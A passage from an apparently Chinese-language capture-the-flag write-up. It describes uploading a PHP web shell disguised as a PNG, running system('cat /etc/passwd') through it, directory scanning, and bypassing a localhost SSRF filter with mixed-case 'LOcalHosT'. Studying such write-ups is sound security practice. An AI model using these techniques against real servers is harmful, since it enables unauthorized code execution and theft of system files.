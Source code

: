 ```http

------WebKitFormBoundaryvYBkkrDgeQpJpsun
Content-Disposition: form-data; name="file"; filename="img.png" # 修改为php
Content-Type: image/png

```

​	服务器返回：`上传成功，保存至tmp/img.php`

​	访问`http://hostname.com/tmp/img.php?qwq=system('cat /etc/passwd');`验证一下。

​	之后直接拿flag就好了。

# Spider

​	先拿dirsearch扫一下。

```shell
[11:21:33] Starting: 
[11:21:38] 403 -  287B  - /.ht_wsr.txt
[11:21:38] 403 -  287B  - /.htaccess.bak1
[11:21:38] 403 -  287B  - /.htaccess.orig
[11:21:38] 403 -  287B  - /.htaccess.sample
[11:21:38] 403 -  287B  - /.htaccess.save
[11:21:38] 403 -  287B  - /.htaccessBAK
[11:21:38] 403 -  287B  - /.htaccess_orig
[11:21:38] 403 -  287B  - /.htaccess_sc
[11:21:38] 403 -  287B  - /.htaccess_extra
[11:21:38] 403 -  287B  - /.htaccessOLD
[11:21:38] 403 -  287B  - /.htaccessOLD2
[11:21:38] 403 -  287B  - /.htm
[11:21:38] 403 -  287B  - /.html
[11:21:38] 403 -  287B  - /.htpasswd_test
[11:21:38] 403 -  287B  - /.htpasswds
[11:21:38] 403 -  287B  - /.httr-oauth
[11:22:15] 200 -   31B  - /robots.txt
[11:22:16] 403 -  287B  - /server-status/
[11:22:16] 403 -  287B  - /server-status

Task Completed
```

​	访问robots.txt获取内容。

```shell
Disallow: /secret_flag_here.php
```

​	访问输出`只有我自己能看到 flag`

​	可以通过前面提供的Lilac爬虫中心来以本机ip访问本机内容，但是里面检测到127.0.0.1和localhost都会拒绝访问输出`我 spider 就是饿死，死外面，也不会爬取自己！`。

​	我们使用`LOcalHosT`访问就好。

# MD5
